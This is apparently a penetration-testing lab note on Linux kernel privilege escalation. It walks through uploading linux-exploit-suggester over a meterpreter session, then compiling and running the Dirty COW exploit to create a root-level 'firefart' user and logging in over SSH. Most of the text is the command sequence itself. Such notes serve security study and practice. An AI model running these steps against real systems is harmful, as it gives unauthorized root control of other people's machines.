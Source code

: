 Kernel exploits on Linux will typically target vulnerabilities in the linux kernel to execute arbitary code in order to run privileged system commands or to obtain a system shell.
- this process will differ based on the kernel version and distribution being targeted and the kernel exploit being used.
- Privilege escalation on Linux systems will typically follow  the following methodoloy
- - identifying kernel vulnerabilities
- - Downloading compiling and transferring kernel exploits  onto the target system.

#### Tool and environment
- Linux-Exploit suggester - this tool is design to assist in detecting security deficiencies for given linux kernel/linux-based machine.It assesses (using heuristics methods) the exposure of the given kernel on every publicly known linux kernel exploit.
- Github:https://github.com/The-Z-Labs/linux-exploit-suggester
#### Exploit
- First of all we need a meterpreter shell.
- We need to gitclone the linux-exploit-suggester in our own kali linux machine
- cd /tmp [move to temp directory ]
- upload ~/Desktop/Linux-Enum/les.sh -> les.sh [  uploading les.sh file from attacker github clonning directory to meterpreter sessions ]
- shell [ for getting shell]
- /bin/bash -i [ for getting bash shell ]
- chmod +x les.sh [ giving executalbe permissions ]
- ./les.sh [ this script give all vulnerable information with their CVE's mention and associate a link of the cve ]
- In this case we are going to use dirty cow 1,and dirty cow 2
- download the exploit code into attacker machine and follow instruction
- gcc -pthread dirty.c -o dirty -lcrypt [ this will compile the code ]
- now move to meterpreter sessions 
- upload ~/Download/dirty [ uploading compile code ]
- If this compile code doesn't work we need to compline it in victim machine.
- shell [ getting shell ]
- /bin/bash -i
- chmod +x dirty [ giving permissons for execute ]
- ./dirty password123 [ run the file setting a password123 ]
- Doesn't work
- rm dirty [ removing dirty ]
- move meterpreter sessions
- uplaod ~/Downlaods/dirty.c [ upload the c file ]
- shell [getting a shell ]
- /bin/bash -i [ getting  a bash shell ]
- gcc -pthread dirty.c -o dirty -lcrypt [ again compiling it ]
-  chmod +x dirty [ giving executable permission ]
- ./dirty password123 [ run the code specifying a password ]
- cat /etc/passwd [ this shows passwd files where we see a firefart user with root privileged ]
- su firefart [ for switching user to firefart ]
- this shows a error "must be run from terminal"
- move to new tab
- ssh firefart@192.142.50.40
- this will again shows error read care fully and remove ssh-keygen with given in a error
- ssh-keygen -f "/home/kali/.ssh/known_hosts" -R "192.142.50.40" [ this will remove key ]
- ssh firefart@192.142.50.40
- successful
- update apt-get update or apt-get update [ run the following one of two commands ]
